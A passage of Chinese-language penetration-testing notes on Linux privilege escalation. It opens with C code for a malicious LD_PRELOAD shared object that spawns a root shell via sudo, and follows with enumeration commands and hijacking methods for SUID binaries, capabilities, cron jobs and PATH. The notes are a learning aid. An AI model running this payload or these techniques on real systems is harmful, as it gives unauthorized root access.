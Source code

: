           void _init() {
            unsetenv("LD_PRELOAD");
            setgid(0);
            setuid(0);
            system("/bin/bash");
          }
        ```
      - 将此代码保存为 shell.c，并使用 gcc 使用以下参数将其编译为共享对象文件
        ```
          gcc -fPIC -shared -o shell.so shell.c -nostartfiles
        ```
      - 现在，当启动可以使用 sudo 运行的任何程序时，可以使用此共享对象文件
      - 例如 find 或任何可以使用 sudo 运行的程序 
        ```
          sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
        ```
      - 此时得到一个具有root权限的shell
- 权限提升 —— SUID
  - 作为普通用户，如果想执行某些只有管理员才有权限的操作，以前只有两种办法
    - 一是通过 sudo 提升权限，如果用户很多，配置管理和权限控制会很麻烦
    - 二是通过 SUID（Set User ID on execution）来实现，它可以让普通用户允许一个 owner 为 root 的可执行文件时具有 root 的权限
  - SUID 的概念比较晦涩难懂，举个例子就明白了，以常用的 passwd 命令为例，修改用户密码是需要 root 权限的，但普通用户却可以通过这个命令来修改密码，这就是因为 /bin/passwd 被设置了 SUID 标识，所以普通用户执行 passwd 命令时，进程的 owner 就是 passwd 的所有者，也就是 root 用户
  - SUID 虽然可以解决问题，但却带来了安全隐患。当运行设置了 SUID 的命令时，通常只是需要很小一部分的特权，但是 SUID 给了它 root 具有的全部权限。这些可执行文件是黑客的主要目标，如果他们发现了其中的漏洞，就很容易利用它来进行安全攻击。简而言之，SUID 机制增大了系统的安全攻击面
  -  SUID（集用户标识）和 SGID（集组标识）
  - `find / -type f -perm -04000 -ls 2>/dev/null` 将列出设置了 SUID 位的文件
    - **-04000** 是头文件 sys/stat.h 定义的 SUID 符号常量
  - 将查询到的可执行文件与 GTFOBins ( https://gtfobins.github.io ) 进行比较
- 权限提升 —— Capabilities
  - 由于 SUID 的粗颗粒度，为了对 root 权限进行更细的控制，实现按需授权，Linux 引入了另一种机制叫 capabilities
  - Capabilities 机制是在 Linux 内核 2.2 之后引入的，原理很简单，就是将之前与超级用户 root（UID=0）关联的特权细分为不同的功能组，Capabilites 作为线程（Linux 并不真正区分进程和线程）的属性存在，每个功能组都可以独立启用和禁用。其本质上就是将内核调用分门别类，具有相似功能的内核调用被分到同一组中
  - 这样一来，权限检查的过程就变成了：在执行特权操作时，如果线程的有效身份不是 root，就去检查其是否具有该特权操作所对应的 capabilities，并以此为依据，决定是否可以执行特权操作
  - Capabilities 可以在进程执行时赋予，也可以直接从父进程继承。所以理论上如果给 nginx 可执行文件赋予了 `CAP_NET_BIND_SERVICE` capabilities，那么它就能以普通用户运行并监听在 80 端口上
  - 使用 `getcap -r / 2>/dev/null` 列出启用的功能
  - 将查询到的结果与 GTFOBins ( https://gtfobins.github.io ) 进行比较
- 权限提升 —— Cron Jobs
  - Cron jobs 用于在特定时间运行脚本或二进制文件。默认情况下，它们以其所有者的权限运行，而不是以当前用户的权限运行。虽然正确配置的 cron 作业本身并不容易受到攻击，但它们在某些情况下可以提供权限升级向量
  - 使用 `cat /etc/crontab` 列出计划任务
    - 如果有一个以 root 权限运行的计划任务，并且我们可以更改将运行的脚本，那么我们的脚本将以 root 权限运行
    - 第二种情况也并不少见：
      1. 系统管理员需要定期运行脚本
      2. 他们创建了一个 cron 作业来执行此操作
      3. 一段时间后，脚本变得毫无用处，他们将其删除
      4. 他们不清理相关的 cron 作业
      5. 如果未定义该脚本的完整路径，cron 将引用 /etc/crontab 文件中 PATH 变量下列出的路径
      6. 在这种情况下，我们应该能够在用户的主文件夹下创建一个相同名称的脚本，并且它应该由 cron 作业运行
- 权限提升 —— PATH
  - Linux中的 PATH 是一个环境变量，它告诉操作系统在哪里搜索可执行文件
  - 对于任何未内置到 shell 中或未使用绝对路径定义的命令，Linux 将开始在 PATH 下定义的文件夹中搜索
  - 使用 `echo $PATH` 查看当前环境变量
  - 进行攻击之前确认以下事项：
    1. `$PATH` 下有哪些文件夹
    2. 当前用户是否拥有这些文件夹的写入权限
    3. `$PATH` 能否修改
    4. 使用的脚本/应用程序是否会受到此漏洞的影响(下图为使用的演示脚本，注意到使用的是root用户创建，实际利用时应需要寻找存在漏洞的程序或脚本)